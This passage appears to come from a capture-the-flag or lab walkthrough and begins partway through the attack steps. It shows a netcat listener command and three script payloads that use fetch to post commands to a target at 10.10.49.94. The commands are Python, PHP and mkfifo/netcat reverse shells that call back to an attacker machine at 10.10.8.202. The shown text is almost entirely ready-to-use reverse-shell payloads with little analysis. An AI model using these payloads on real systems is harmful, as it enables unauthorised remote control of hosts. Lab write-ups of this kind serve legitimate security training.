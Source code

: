 ✅ **This will send a reverse shell to your machine (`10.10.8.202`).**

---

## **3️⃣ Start a Netcat Listener to Catch the Shell**

On your attacking machine (`10.10.8.202`), start a **Netcat listener**:

```bash
nc -lvnp 5667
```

✅ **If successful, you’ll get a shell from `10.10.49.94`!**

---

## **4️⃣ If `bash -i` Fails, Try Alternative Shells**

If the target blocks `bash -i`, try these:

### **Python Reverse Shell**

```html
<script>
fetch("http://10.10.49.94:8080/", {
  method: "POST",
  headers: { "Content-Type": "application/x-www-form-urlencoded" },
  body: "cmd=python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect((\"10.10.8.202\",5667)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); subprocess.call([\"/bin/sh\",\"-i\"]);'"
});
</script>
```

### **PHP Reverse Shell**

```html
<script>
fetch("http://10.10.49.94:8080/", {
  method: "POST",
  headers: { "Content-Type": "application/x-www-form-urlencoded" },
  body: "cmd=php -r '$sock=fsockopen(\"10.10.8.202\",5667);exec(\"/bin/sh -i <&3 >&3 2>&3\");'"
});
</script>
```

### **Netcat Reverse Shell (Without `-e`)**

If `nc -e` is disabled, use:

```html
<script>
fetch("http://10.10.49.94:8080/", {
  method: "POST",
  headers: { "Content-Type": "application/x-www-form-urlencoded" },
  body: "cmd=rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.8.202 5667 > /tmp/f"
});
</script>
```
